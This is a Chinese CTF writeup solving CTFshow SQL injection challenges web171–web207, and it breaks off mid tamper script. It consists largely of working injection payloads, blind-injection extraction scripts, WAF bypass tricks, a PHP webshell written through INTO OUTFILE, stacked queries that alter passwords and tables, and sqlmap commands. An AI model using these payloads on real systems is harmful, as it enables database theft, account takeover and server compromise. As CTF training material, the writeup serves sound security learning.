+++
date = '2025-01-22T00:27:55+08:00'
title = 'CTFSHOW-SQL注入-Writeup'
categories = ["Writeup"]
tags = ["writeup", "ctf", "Web"]

+++


#### **无过滤注入**（对输出内容进行过滤）

#### web171

```
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

flag是存在于username为flag的用户的数据中，我们只需要通过

```
1' or 1=1 --+
```

即可输出所有用户数据


#### web172

相比上一题，这题增加了过滤

```
//检查结果是否有flag
if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```

方法一: 联合查询

因为联合查询只会显示password

```
api/?id=1' union select 1,(select group_concat(schema_name) from information_schema.schemata),database()%23

/api/?id=1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),database()%23

/api/?id=1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='ctfshow_web' and table_name='ctfshow_user'),database()%23

//看到有3列 id,username,password

/api/?id=1' union select 1,(select group_concat(password) from ctfshow_web.ctfshow_user),database()%23

//查询password发现没有flag

//查另一个表 ctfshow_user2

/api/?id=1' union select 1,(select group_concat(password) from ctfshow_web.ctfshow_user2),database()%23

//看到flag
```

方法二: 将用户名字段进行编码，绕过检测

```
-1' union select to_base64(username),password from ctfshow_user2 --+
```

方法三: 只查询密码

```
-1' union select id,password from ctfshow_user2 where username='flag
```


#### web173

过滤要求查询结果中不能出现flag字段

```
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

方法一：联合查询

和上题解法一样，只是这题flag在ctfshow_user3

方法二：

只查询password

```
-1' union select id,id,password from ctfshow_user3 where username='flag
```

方法三: 将用户名字段进行编码，绕过检测

```
-1' union select to_base64(username),password from ctfshow_user3 --+
```


#### web174

输出时增加了过滤数字

```
//检查结果是否有flag和数字
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
}     
```

由于flag中含有数字，哪怕像之前的通过to_base64等编码后，仍然不可避免数字的出现

所以这题我们要用到布尔盲注

放个脚本

```python
# @Author:Y4tacker
import requests

url = "http://e076200d-5e74-4121-b2fc-04153243f7a3.chall.ctf.show/api/v4.php?id=1' and "

result = ''
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        payload = f'1=if(ascii(substr((select  password from ctfshow_user4 limit 24,1),{i},1))>{mid},1,0) -- -'
        r = requests.get(url + payload)
        if "admin" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)

```

又或者通过replace方法将数字替换成其他的合法字符

```
1' union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,1,'A'),2,'B'),3,'C'),4,'D'),5,'E'),6,'F'),7,'G'),8,'H'),9,'I'),0,'J'),'b' from ctfshow_user4 where username='flag' %23
```



拿到flag后替换回去就行

```python
import base64
 
flag64 = "ctfshow{GHIeaIeG-AGaG-DAab-HHae-eEaFcHFIEbef}"
 
flag = flag64.replace("A", "1").replace("B", "2").replace("C", "3").replace("D", "4").replace("E", "5").replace("F", "6").replace("G", "7").replace("H", "8").replace("I", "9").replace("J", "0")
 
print(flag)
```

又或者



```
1' union select 1,"<?=eval($_POST[1]);?>" into outfile "/var/www/html/shell.php" --+ 
```


#### web175

```
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
      
```

检查变量 `$ret` 经过 `json_encode` 编码后的结果中是否只包含 ASCII 字符（即字符编码范围在 `\x00` 到 `\x7f` 之间）。如果不满足这个条件，就将 `$ret` 数组中的 `msg` 键的值设置为 `'查询成功'`。

也就是没有任何回显

方法一：**时间盲注**

大佬的脚本，用的二分法

```python
# @Author:Y4tacker
import requests

url = "http://7eac161c-e06e-4d48-baa5-f11edaee7d38.chall.ctf.show/api/v5.php?id=1' and "

result = ''
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        payload = f'1=if(ascii(substr((select  password from ctfshow_user5 limit 24,1),{i},1))>{mid},sleep(2),0) -- -'
        try:
            r = requests.get(url + payload, timeout=0.5)
            tail = mid
        except Exception as e:
            head = mid + 1

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```

 方法二:利用读写文件写入网站根目录
http://32a74685-8c52-4756-a326-69a2eb56e70f.challenge.ctf.show/api/v5.php?id=1' union select 1,password from ctfshow_user5 into outfile '/var/www/html/1.txt'--+&page=1&limit=10
之后访问http://32a74685-8c52-4756-a326-69a2eb56e70f.challenge.ctf.show/1.txt


#### **过滤注入**（对传入参数进行过滤）

#### web176

```
//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```

方法一：万能钥匙

```
1' or 1=1--+
```



能找到flag

方法二:大小写绕过

```
1' uNion sElect 1,2,password from ctfshow_user --+
```


#### web177

**黑名单**：空格、+

**空格替代**：%20（普通空格）、%09（水平制表符）、%0a（换行符）、%0b（回车符）、%0c（新一页）、%0d（垂直制表符）、%a0、()、``、\\**\\

可以用\\**\\绕过

```
1'/**/union/**/select/**/password,1,1/**/from/**/ctfshow_user/**/where/**/username/**/='flag'%23
```

方法二:万能钥匙


#### web178

**黑名单增加**：%20、*

```
1'%09union%09select%09password,1,1%09from%09ctfshow_user%09where%09username%09='flag'%23
```

方法二:万能钥匙


#### web179

**黑名单增加**：%09、%0a、%0b、%0d

这题把%09也过滤了，这题空格可以用%0c绕过

```
1'union%0cselect%0c1,2,password%0cfrom%0cctfshow_user%23
```


#### web180

**黑名单增加**：#

可以用--%0c代替#(%23)

```
1'union%0cselect%0c1,2,password%0cfrom%0cctfshow_user--%0c
```

或者直接万能密码

```
id=-1'or(id=26)and'1'='1
```


#### web181

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```

> - **`/` 和 `/i`**：正则表达式的定界符，`/` 表示正则表达式的开始和结束，`i` 是修饰符，表示不区分大小写进行匹配。
>
> - **`|\*`**：匹配空格字符（）和星号（`*`），这两个字符在 SQL 注入中可能会被用于构造恶意语句。
>
> - `\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0`
>
>   ：分别匹配不同的 ASCII 控制字符和特殊空白字符，例如：
>
>   - `\x09`：水平制表符（Tab）
>   - `\x0a`：换行符（LF）
>   - `\x0b`：垂直制表符
>   - `\x0c`：换页符
>   - `\x00`：空字符
>   - `\x0d`：回车符（CR）
>   - `\xa0`：不间断空格
>
> - **`\x23|\#`**：匹配井号（`#`），在 SQL 中，`#` 通常用于注释，攻击者可能会利用注释来绕过 SQL 语句的检查。
>
> - **`file|into|select`**：匹配关键字 `file`、`into` 和 `select`，这些关键字在 SQL 注入和文件包含攻击中经常被使用。

**方法一**  用like来匹配关键词flag

```
-1'%0cor%0cusername%0clike%0c'flag
```

**方法二**

```
-1'or(id=26)and'1
```
看到一篇大佬的文章，感觉明了不少

[ctfshow Web入门SQL注入 web171-197 Writeup - X1r0z Blog](https://exp10it.io/2022/07/ctfshow-web-sqli-171-197-writeup/#web178)




#### web182

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str);
  }
```

**黑名单增加**：flag

这题可以用到like进行模糊查询



payload:

```
-1'or%0cusername%0clike%0c'fl%
```

或者继续使用上一题的方法二


#### web183

查询语句

```
//拼接sql语句查找指定ID用户
$sql = "select count(pass) from ".$_POST['tableName'].";";  
```

返回逻辑

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }
```

查询结果

```
//返回用户表的记录总数
      $user_count = 0;
```

题目大概的意思就是我们传入表名进行查询，如果表名正确，就会返回用户表记录总数1，如果表名错误则返回0，且每次最多只会返回1，根据这个我们可以尝试布尔盲注，如果我们知道表名(ctfshow_user)和列名(pass)，我们就能通过布尔盲注拿到flag

Y4tacker大佬的脚本

```
import requests

url = 'http://ee0ad3ab-e8f0-4183-97a8-aa3c5bcbe4f4.challenge.ctf.show/select-waf.php'
str = r"{abcdefghijklmnopqrstuvwsyz-0123456789}"
flag = ""
index = 0
while True:
    for i in str:
        data = {
            'tableName': f"(ctfshow_user)where(substr(pass,{index},1))regexp('{i}')"
        }
        r = requests.post(url, data=data)
        if r.text.find("$user_count = 1;") > 0:
            flag += i
            print(flag)
            break
    index += 1
```


不是为什么我flag的马甲是这样的


#### web184

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

因为这题where被ban了，我们可以利用right join进行代替

依旧是布尔盲注



POC

```
import requests

url = 'http://effed757-6639-46a9-9103-22fedb04bb41.challenge.ctf.show/select-waf.php'
charset = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}'
flag = ''

for i in range(1, 50):  # 假设 flag 最长 50 个字符
    for j in charset:
        payload = f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{i},1) regexp char({ord(j)}))"
        data = {
            'tableName': payload
        }
        response = requests.post(url, data=data)
        if "some_success_condition" in response.text:
            flag += j
            print(flag)
            break
```


#### web185

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

这题把数字ban掉了

这其实就导致了我们在构造payload的时候没办法直接使用数字

但是我们可以用true来代替构造出数字

我们知道true = 1

那2就可以用true+true来表示，以此类推

```python
import requests
url = "http://33578c7b-f34a-422b-87a5-a8accac68645.challenge.ctf.show/select-waf.php"
flag = ''


def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
    return num


for i in range(45):
    if i <= 5:
        continue
    for j in range(127):
        data = {
            "tableName": f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{createNum(i)},{createNum(1)})regexp(char({createNum(j)})))"
        }
        r = requests.post(url, data=data)
        if r.text.find("$user_count = 43;") > 0:
            if chr(j) != ".":
                flag += chr(j)

                print("[*]result is:"+flag.lower())
                if chr(j) == "}":
                    exit(0)
                break

```


#### web186

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\<|\>|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }

```

解法和上题一样


#### web187

```
返回逻辑
$username = $_POST['username'];
$password = md5($_POST['password'],true);

//只有admin可以获得flag
if($username!='admin'){
   $ret['msg']='用户名不存在';
   die(json_encode($ret));
}
      
```


> [password=md5($pass,true)绕过、弱类型、MD5强碰撞_select * from 'admin' where password=md5($pass,tru-CSDN博客](https://blog.csdn.net/qq_58784379/article/details/120504844)
>
> 
>
> 

payload:

```
admin/ffifdyop
```


抓个包


#### web188

```
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username}";
```


```
返回逻辑


  //用户名检测
  if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\'|\"/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
      
```

> 
>
> [ctfshow-sql注入-超详解(172-200)_ctfshow 172-CSDN博客](https://blog.csdn.net/qq_50589021/article/details/119426002)

所以payload为

```
0/0
或者
1||1/0
```

https://stackoverflow.com/questions/18883213/why-select-from-table-where-username-0-shows-all-rows-username-column-is-v


#### web189

```
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username}";
```

```

  //用户名检测
  if(preg_match('/select|and| |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\x26|\x7c|or|into|from|where|join|sleep|benchmark/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }
     
```

这题在输入0/0的时候会显示密码错误，而在输入1/0的时候则会显示查询错误

可以通过这个来进行布尔盲注，即正确时系统返回查询错误，错误时系统返回密码错误

```python
# -*- coding: utf-8 -*-
# @Author  : Yn8rt
# @Time    : 2021/7/30 15:48
# @Function:
import requests
import sys
import json

url = 'http://98e1809d-5de9-4f68-b45f-d03388b1dae8.challenge.ctf.show/api/'
flag = 'ctfshow{'
letter = '0123456789abcdefghijklmnopqrstuvwxyz-{}'

for i in range(100):
    for j in letter:
        payload = {
            "username": "if(load_file('/var/www/html/api/index.php')regexp('{}'),0,1)".format(flag + j),
            "password": "0"

        }
        r = requests.post(url=url,data=payload)
        #print(r)
        if "密码错误" == r.json()['msg']:
            flag += j
            print(flag)
            break
        if '}' in flag:
            sys.exit()
```


#### web190

查询语句

```
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
```

返回逻辑

```
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
      
```


所以这题依旧可以进行布尔盲注

```python
# @Author:Y4tacker
import requests

url = "http://eb2e57dd-6c44-4140-9052-f549f647caa9.challenge.ctf.show/api/"

result = ""
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        # 查flag
        payload = "select group_concat(f1ag) from ctfshow_fl0g"
        data = {
            'username': f"admin' and if(ascii(substr(({payload}),{i},1))>{mid},1,2)='1",
            'password': '1'
        }

        r = requests.post(url,data=data)
        if "密码错误"  == r.json()['msg']:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)


```


#### web191

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

这题和上题一样，只是加了点ban掉了ascii

我们用ord代替ascii即可

```python
# @Author:Y4tacker
import requests

url = "http://92a52ee7-65ff-4fff-b3d9-ec90f74fd2f5.challenge.ctf.show/api/"

result = ""
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # 查数据库
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        # 查flag
        payload = "select group_concat(f1ag) from ctfshow_fl0g"
        data = {
            'username': f"admin' and if(ord(substr(({payload}),{i},1))>{mid},1,2)='1",
            'password': '1'
        }

        r = requests.post(url,data=data)
        if "密码错误"  == r.json()['msg']:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)


```


#### web192

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

不给我转是吧，那我不转了

```python
import requests
import string

url = "http://20b20943-6b5a-464b-b13e-99ab8e2644b7.challenge.ctf.show/api/"
flagstr=" _{}-" + string.ascii_lowercase + string.digits
flag = ''
for i in range(1,45):
    for j in flagstr:
        payload = f"admin' and if(substr((select group_concat(f1ag) from ctfshow_fl0g),{i},1)regexp('{j}'),1,2)='1"
        data = {
            'username': payload,
            'password': '1'
        }
        r = requests.post(url, data=data)
        if "密码错误" == r.json()['msg']:
            flag += j
            print(flag)
            if "}" in flag:
                exit(0)
            break

```

其实也差不多

二分法脚本

```python

# 用了二分法 dejavu~~~
import requests

url = "http://c9b03201-bcdf-42ce-ac5b-c546603c1848.challenge.ctf.show:8080/api/"
# 表名 CtFsHOw{FL0G,CtFsHOw{usEr
# payload = "0' or if(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1)>'{}',1,0) -- "
# 列名 ID,F1AG,ID,usErNAME,pAss
# payload = "0' or if(substr((select group_concat(column_name) from information_schema.columns where table_schema=database()),{},1)>'{}',1,0) -- "
# flag
payload = "0' or if(substr((select f1ag from ctfshow_fl0g),{},1)>'{}',1,0) -- "
true_flag = "\\u5bc6\\u7801\\u9519\\u8bef"
result = ""
index = 1
while True:
    start = 32
    end = 127
    while not (abs(start-end) == 1 or start == end):
        p = (start + end) // 2
        data = {
            "username": payload.format(index, chr(p)),
            "password": 0
        }
        response = None
        while True:
            try:
                response = requests.post(url, data=data)
            except:
                continue
            break
        if true_flag in response.text:
            start = p
        else:
            end = p
    if end < start:
        end = start
    result += chr(end)
    print(f"[*] result: {result}")
    index += 1
```


#### web193

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }

```

**新增waf**：substr

没办法进行截断，但其实问题不大

```python
import requests
import sys
url = 'http://a4ac8172-cadd-42ca-a986-771b4ab0400f.challenge.ctf.show/api/'
result = ''
letter = '0123456789abcdefghijklmnopqrstuvwxyz-_,{}'

for i in range(100):
    for j in letter:
        # 查表
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        # 查flag
        payload = "select group_concat(f1ag) from ctfshow_flxg"
        
        data={
            'username':"admin' and if(({}) like '{}%',1,2) ='1".format(payload,result+j),
            'password':1
        }
        res = requests.post(url=url,data=data)
        if "密码错误" == res.json()['msg']:
            result += j
            print(result)
            break
        if "}" in result:
            exit(0)

```

我们可以用like来达到差不多的效果

这题也可以用char,left,right,substring之类的方法


#### web194

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr|char|left|right|substring/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

**新增waf**：char|left|right|substring

上题的方法依旧适用


#### web195

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

根据提示堆叠注入

其实就是在;后面再执行任意的sql命令

这里直接改密码

```
payload="0x61646d696e;update`ctfshow_user`set`pass`=0x313131;"
# 至于为什么非得用十六进制登录，是因为下面这个没有字符串单引号包围
sql = "select pass from ctfshow_user where username = {$username};";
# @Author:Y4tacker
```

```
admin <=> 0x61646d696e
111<=>0x313131
```


#### web196

```
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
      
返回逻辑


  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if(strlen($username)>16){
    $ret['msg']='用户名不能超过16个字符';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
      
```

这题应该是bug了，select没被waf


在 PHP 里，当使用数据库查询语句从数据库中获取结果集时，通常会逐行遍历结果集。每一行数据可以用一个数组来表示，`$row[0]` 指的是这一行数组中的第一个元素。

payload:

```
0;select(2)
2
```


#### web197

```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
      
返回逻辑


  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set//i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
      
```

这把不能用select，那我们只需要想办法给$row[0]一个确定的值即可

比如

```
username: 1;show tables 
password: ctfshow_user
```

其他的一些骚操作

重写ctfshow_user表


把密码和id列互换之后爆密码（实际上在爆id）

```python
# @Author:Y4tacker
import requests

url = "http://b126bc7c-2b32-461d-9520-30d5baf7a152.chall.ctf.show/api/"
for i in range(100):
    if i == 0:
        data = {
            'username': '0;alter table ctfshow_user change column `pass` `ppp` varchar(255);alter table ctfshow_user '
                        'change column `id` `pass` varchar(255);alter table ctfshow_user change column `ppp` `id` '
                        'varchar(255);',
            'password': f'{i}'
        }
        r = requests.post(url, data=data)
    data = {
        'username': '0x61646d696e',
        'password': f'{i}'
    }
    r = requests.post(url, data=data)
    if "登陆成功" in r.json()['msg']:
        print(r.json()['msg'])
        break
```

#### web198

同web197

#### web199

通解一把梭

#### web200

通解一把梭

#### web190-web200通解

```
username=0;show tables;
pass=ctfshow_user
```


#### sqlmap的使用

#### web201

```
 sqlmap最新版下载
 使用--user-agent 指定agent
 使用--referer 绕过referer检查
```

```
检测注入类型
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/sqlmap.php/api/?id= --user-agent sqlmap --referer ctf.show

爆数据库
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show --dbs

爆表
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D 
ctfshow_web --tables 

爆列
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D 
ctfshow_web -T ctfshow_user --columns

爆值
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show -D ctfshow_web -T ctfshow_user --dump 
```


#### web202

```
 sqlmap最新版下载

 使用--data 调整sqlmap的请求方式
```


```
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."';";
      
返回逻辑

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```

通过向命令行加入--data参数转化请求方式为post

```
sqlmap -u http://e39cef84-16aa-4167-b5d8-2609318ff7cc.challenge.ctf.show/api/ --data 'id=1' --user-agent sqlmap --referer ctf.show -D ctfshow_web -T ctfshow_user --dump 
```


#### web203

```
 sqlmap最新版下载
 使用--method 调整sqlmap的请求方式
```

```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."';";
      
返回逻辑

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```

--headers="Content-Type: text/plain" 以表单形式发送

```
sqlmap -u "http://29e626b4-75fb-4058-98af-126d2bf725c5.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" -D ctfshow_web -T ctfshow_user -C pass --dump 
```


#### web204

```
使用--cookie 提交cookie数据
```

payload:

```
 sqlmap -u "http://c07422b1-5bde-4baa-9e8c-73ef4edfa83a.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID:eqf4q2s5ma4u4vtj31sf25lbp5;ctfshow:d5d0917
6f63d87074e926a342a996872" -D ctfshow_web -T ctfshow_user -C pass --dump
```


#### web205

```
api调用需要鉴权
```

通过抓包分析，在每次请求`url/api/index.php`之前需要先请求`URL/api/getTokn.php`



payload：

```
sqlmap -u "http://24e98b18-4f9a-4a11-a265-5022e0e3fb05.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=60prkqe8189934t5pv3ikepa16" --safe-url="http://24e98b18-4f9a-4a11-a265-5022e0e3fb05.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flax --dump
```


#### web206

```
 sql需要闭合
```

```
//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;";
      
```

sqlmap会自动构造闭合，所以跟前一题没什么区别

但是也可以手动构造一下

payload:

```
根据sql语句，我们采用“)#”的方式进行右闭合。----suffix=")#"
执行sqlmap命令行
sqlmap -u "http://aae90b40-e094-482a-bbe1-eabb586a4291.challenge.ctf.show/api/index.php" --data "id=1" --user-agent=sqlmap --referer=ctf.show --method=put --headers="Content-Type:text/plain" --cookie="PHPSESSID=sie3k7c33euvbk2s2753f6n0j0;" --safe-url="https://aae90b40-e094-482a-bbe1-eabb586a4291.challenge.ctf.show/api/getToken.php" --safe-freq=1 --suffix=")#" --dbs

sqlmap -u "http://00b4cc54-fdc1-4b6a-ada7-bc509824917a.challenge.ctf.show/api/index.php" --data "id=1" --user-agent=sqlmap --referer=ctf.show --method=put --headers="Content-Type:text/plain" --cookie="PHPSESSID=lb4lslploh7thdl0hdsd1008f9;" --safe-url="https://00b4cc54-fdc1-4b6a-ada7-bc509824917a.challenge.ctf.show/api/getToken.php" --safe-freq=1 --suffix=")#" -D ctfshow_web --tables

sqlmap -u http://52acc440-2ed1-4b93-b3af-171d78632ae7.challenge.ctf.show/api/index.php --method=PUT --data="id=1" --referer=ctf.show --dbms=mysql -D "ctfshow_web" -T "ctfshow_flaxc" -C "flagv" --dump  --headers="Content-Type: text/plain" --safe-url=http://52acc440-2ed1-4b93-b3af-171d78632ae7.challenge.ctf.show/api/getToken.php --safe-freq=1 
```


#### web207

[Sqlmap Tamper 编写](https://y4er.com/post/sqlmap-tamper/)

示例

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW # 当前脚本调用优先等级

def dependencies(): # 声明当前脚本适用/不适用的范围，可以为空。
    pass

def tamper(payload, **kwargs): # 用于篡改Payload、以及请求头的主要函数
    return payload
```

题目


```
查询语句

//拼接sql语句查找指定ID用户
$sql = "select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;";
      
返回逻辑

//对传入的参数进行了过滤
  function waf($str){
   return preg_match('/ /', $str);
  }
```

这里会将waf中的关键词替换成空格

放一个Y4tacker大佬的脚本

```python
#!/usr/bin/env python
"""
Author:Y4tacker
"""

# 假设在Python 3环境中运行，将xrange替换为range
# 从lib.core.enums模块中导入PRIORITY枚举类型
from lib.core.enums import PRIORITY

# 设置脚本的优先级为低
__priority__ = PRIORITY.LOW

def tamper(payload, **kwargs):
    """
    篡改函数，调用space2comment函数对有效负载进行处理
    :param payload: 待处理的有效负载
    :param kwargs: 其他关键字参数
    :return: 处理后的有效负载
    """
    payload = space2comment(payload)
    return payload

def space2comment(payload):
    """
    将有效负载中的空格字符替换为换行符
    :param payload: 待处理的有效负载
    :return: 处理后的有效负载
    """
    retVal = payload
    if payload:
        retVal = ""
        # 用于跟踪是否在单引号内
        quote = False
        # 用于跟踪是否在双引号内
        doublequote = False
        # 用于跟踪是否遇到第一个空格
        firstspace = False

        for i in range(len(payload)):
            if not firstspace:
